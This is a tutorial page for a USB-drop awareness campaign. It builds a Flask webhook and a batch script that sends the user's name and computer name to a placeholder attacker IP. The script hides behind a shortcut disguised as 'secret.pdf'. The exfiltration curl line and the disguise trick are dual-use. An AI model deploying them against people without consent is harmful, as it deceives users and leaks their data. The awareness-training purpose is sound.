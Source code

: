 ```yaml
---
icon: usb
---
```


# USB stick awareness

If you watch Mr. Robot, you must remember a scene where Darlene drops several USB sticks around a prison in order to Elliot get an reverse shell access. All that is needed is someone to pick it up and plug into a computer. Pretty cool, right?

<figure><img src="../.gitbook/assets/usbstick.gif" alt=""><figcaption><p>Mr. Robot Season 1, Episode 6.</p></figcaption></figure>

So, I'm not actually going to show how to create a Rubber Ducky for malicious purposes, instead, let's create a social engineering campaign with regular USB sticks. The purpose is to drop the USB sticks and create awareness to every user.

We need an attacker machine, ideally Kali running a Flask server, and as many USB sticks as you want.

So, let's dive into it!

**Prerequisites**

* **Python**: Make sure you have Python installed on your machine. You can download it from python.org.
*   **Flask**: You can install Flask using pip. Open your terminal or command prompt and run:

    ```bash
    pip install Flask
    ```

**Step-by-Step Guide to Create a Webhook**

1.  **Create a New Directory**: Create a new directory for your webhook project and navigate into it.

    ```bash
    mkdir my_webhook
    cd my_webhook
    ```
2. **Create a Python File**: Create a new Python file, e.g., `webhook.py`, and open it in your text editor.
3.  **Write the Webhook Code**: Add the following code to `webhook.py`:

    ```python
    from flask import Flask, request, jsonify
    import logging

    app = Flask(__name__)

    # Set up logging
    logging.basicConfig(level=logging.INFO)

    @app.route('/webhook', methods=['POST'])
    def webhook():
        # Get the JSON data from the request
        data = request.json
        
        # Log the received data
        logging.info(f"Received data: {data}")

        # Respond with a success message
        return jsonify({"status": "success", "message": "Data received"}), 200

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=5000)
    ```
4.  **Run the Webhook Server**: In your terminal, run the following command to start the Flask server:

    ```bash
    python webhook.py
    ```

    The server will start and listen for incoming requests on `http://localhost:5000/webhook`.
5.  **Testing the Webhook**: You can test the webhook using a tool like curl or Postman. Here’s how to test it using curl: Open a new terminal window and run:

    {% code overflow="wrap" %}
    ```bash
    curl -X POST http://localhost:5000/webhook -H "Content-Type: application/json" -d "{\"username\":\"test_user\", \"message\":\"USB accessed\"}"
    ```
    {% endcode %}

    You should see a response indicating that the data was received, and the server logs should show the received data.

**Now for the USB stick**

1.  **Create a batch file**: Create a new batch file, **script.bat** in the root of the USB stick:

    {% code overflow="wrap" %}
    ```batch
    @echo off
    setlocal

    REM Open Social Engineering Awareness document
    start "" "awareness.pdf"

    REM Retrieve user information
    set USERNAME=%USERNAME%
    set COMPUTERNAME=%COMPUTERNAME%

    REM Set USERINFO with escaped quotes
    set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}

    echo Sending the following JSON: %USERINFO%

    REM Send the information to the Flask server
    curl -X POST http://server_ip:5000/webhook -H "Content-Type: application/json" -d "%USERINFO%"

    Endlocal
    ```
    {% endcode %}

    Make sure you change the **server\_ip** for the actual attacker machine IP.
2. **Download an .ico file**: We can use a .ico file repository like [https://www.shareicon.net/](https://www.shareicon.net/t) and download any pdf .ico you like. Place it at the root of the USB stick.
3. **Move the awareness.pdf** file also into the root of the USB stick.
4. **Create a shortcut of the script.bat file**: Right click the shortcut, go to properties and click on **Change icon** and choose the .ico file you just downloaded it. Then rename the file to something mysterious like **secret.pdf**
5. **Put all the files Hidden except for the shortcut, secret.pdf**: Then we untick the **Hidden items** option

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>All visible files</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>What the user will see, hopefully</p></figcaption></figure>

Sure, we can see it is a shortcut, and we must rely on the fact that the victim has the 'Hidden items' option unticked. However, the purpose is for the user to notice the small details and create awareness within the organization.

{% hint style="info" %}
If noticed in the script.bat had the following line:

{% code overflow="wrap" %}
```batch
set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}
```
{% endcode %}

The 'id' parameter is useful when multiple USB sticks are used. For example, you can number the USB sticks and adjust the script accordingly. If someone plugs in USB stick 1 on the first floor (build A, room X, etc.), you will receive the information on the Flask server.
{% endhint %}



